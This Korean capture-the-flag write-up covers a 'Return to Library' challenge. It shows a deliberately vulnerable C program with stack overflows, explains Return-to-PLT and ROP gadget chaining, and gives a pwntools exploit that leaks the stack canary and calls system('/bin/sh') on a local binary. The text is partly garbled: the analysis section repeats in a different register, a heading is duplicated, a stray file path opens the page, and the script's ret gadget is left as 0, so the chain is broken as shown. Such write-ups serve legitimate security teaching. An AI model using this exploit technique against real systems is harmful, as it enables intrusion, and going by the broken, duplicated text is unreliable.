 Return to Library 라이트업
====================

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드를 분석해보면 

**1. "/bin/sh"를 바이너리에 추가**

* rtl.c 코드의 8번째 줄은 바이너리에 /bin/sh 문자열을 추가하기 위해 작성된 코드이다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면
  코드 세그먼트와 데이터 세그먼트의 주소는 고정된다.
   /bin/sh의 주소도 고정되어 있습니다. 문자열 공격에 유용하게 사용될 수 있다.   

**2. PLT에 system 함수 추가**

* 17번째 줄은 PLT에 system 함수를 추가하기 위해 작성된 코드이다.
* system 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들이다.
* 처음에는 system 함수의 주소가 resolve되지 않았을 때 함수의 주소를 구하고 실행하는 코드가 작성된다.
* **Return to PLT 공격**의 원리: ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있다.
  따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면
   공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있다.
  무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있다.   

**3. 버퍼 오버플로우**

* 코드의 19번째 줄부터 28번째 줄까지는 두 번의 버퍼 오버플로우로 스택 카나리를 우회하고, 
반환 주소를 덮을 수 있도록 작성된 코드이다.


## 익스플로잇


**1. "/bin/sh"를 바이너리에 추가**

* `rtl.c` 코드의 8번째 줄은 바이너리에 `/bin/sh` 문자열을 추가하기 위해 작성된 코드입니다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면 코드 세그먼트와 데이터 세그먼트의 주소는 고정됩니다. 즉, `/bin/sh`의 주소도 고정되어 있습니다. 이는 문자열 공격에 유용하게 사용될 수 있습니다.

**2. PLT에 `system` 함수 추가 (Return to PLT 공격의 핵심)**

* `rtl.c` 코드의 17번째 줄은 PLT에 `system` 함수를 추가하기 위해 작성된 코드입니다.
* `system` 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들입니다. 처음에는 `system` 함수의 주소가 resolve되지 않았을 때, 함수의 주소를 구하고 실행하는 코드가 작성됩니다.
* **Return to PLT 공격의 원리:** ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있습니다. 따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면, 공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있습니다. 무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있습니다. 이 공격 기법을 **Return to PLT**라고 부릅니다.
* 이 예제에서는 PLT를 이용하여 NX(No-eXecute) 보호 기법을 우회합니다.
* ELF의 PLT에는 ELF가 실행하는 라이브러리 함수만 포함됩니다. 제공된 코드 예시(`system("echo 'system@plt'");`)는 PLT에 `system` 함수를 추가하는 방법을 보여줍니다.

**3. 버퍼 오버플로우**

* `rtl.c` 코드의 19번째 줄부터 28번째 줄까지는 두 번의 버퍼 오버플로우로 스택 카나리를 우회하고, 반환 주소를 덮을 수 있도록 작성된 코드입니다.


## 익스플로잇


* **카나리 우회:** 첫 번째 입력에서 적절한 데이터를 입력하여 카나리를 우회한다.
* **`rdi` 값을 "/bin/sh"의 주소로 설정 및 셸 획득:**
    * 카나리를 우회한 후, 두 번째 입력으로 반환 주소를 덮을 수 있다.
    * NX으로 인해 `buf`에 셸코드를 주입하고 직접 실행할 수는 없다.
    * **공격에 필요한 정보:**
        * "/bin/sh" 문자열의 주소를 알고 있다.
        * `system` 함수의 PLT 주소를 알고 있다. (이를 통해 `system` 함수를 호출할 수 있다.)
    * **목표:** `/bin/sh`를 호출하여 셸을 획득하는 것이다.
      x86-64 호출 규약에 따르면 `system("/bin/sh")`은 `rdi` 레지스터에
      `"/bin/sh"` 주소가 있는 상태에서 `system` 함수를 호출하는 것과 같다.
    * **Return-Oriented Programming (ROP) 활용:** `/bin/sh`의 주소를 알고
      `system` 함수를 호출할 수 있으므로
       `/bin/sh`의 주소를 `rdi` 값으로 설정할 수 있다면
       `system("/bin/sh")`을 실행할 수 있다. 이를 위해 **리턴 가젯**을 활용해야 한다.


### 리턴 가젯

<img width="687" height="87" alt="image" src="https://github.com/user-attachments/assets/ef210971-58f3-4e5f-a964-d35db3c53de6" />

return gadget이란 ret 명령어로 끝나는 어셈블리 코드 조각을 의미한다. ROPgadget 명령어를 사용해서 위와 같이 가젯을 구할 수 있다.

이 문제에서는 rdi의 값을 `/bin/sh`의 주소로 설정하고 system 함수를 호출해야 한다. 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

리턴 가젯을 사용해서 반환 주소와 이후의 버퍼를 이렇게 덮으면 pop rdi로 rdi의 주소를 `/bin/sh` 의 주소로 설정하고 이어지는 ret으로 system 함수를 호출할 수 있다. 


### 익스플로잇 코드


```python
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

system_plt = e.plt['system']
binsh = 0x400874
pop_rdi = 0x0000000000400596
ret = 0 # ROPgadget --binary=./rtl | grep ": ret"

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
payload += p64(ret)  
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter(b'Buf: ', payload)

p.interactive()
```


